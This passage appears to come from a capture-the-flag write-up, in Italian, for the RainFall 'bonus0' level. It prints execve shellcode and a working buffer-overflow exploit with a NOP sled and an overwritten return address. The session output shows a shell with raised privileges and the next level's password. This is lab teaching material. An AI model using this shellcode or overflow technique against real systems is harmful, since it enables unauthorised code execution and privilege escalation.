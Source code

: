 Shellcode (opcode):
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80
```

Dunque ora non resta che creare l'exploit ed eseguire:
```
bonus0@RainFall:~$ (python -c 'print "\x90"*50 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80"'; python -c 'print "A"*9 + "\xc0\xe6\xff\xbf" + "B"*7' ; cat) | ./bonus0
 -
 -
��������������������AAAAAAAAA����BBBBBBB��� AAAAAAAAA����BBBBBBB���
id
uid=2010(bonus0) gid=2010(bonus0) euid=2011(bonus1) egid=100(users) groups=2011(bonus1),100(users),2010(bonus0)
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
exit
exit
bonus0@RainFall:~$ su bonus1
Password: cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus1/bonus1
bonus1@RainFall:~$
```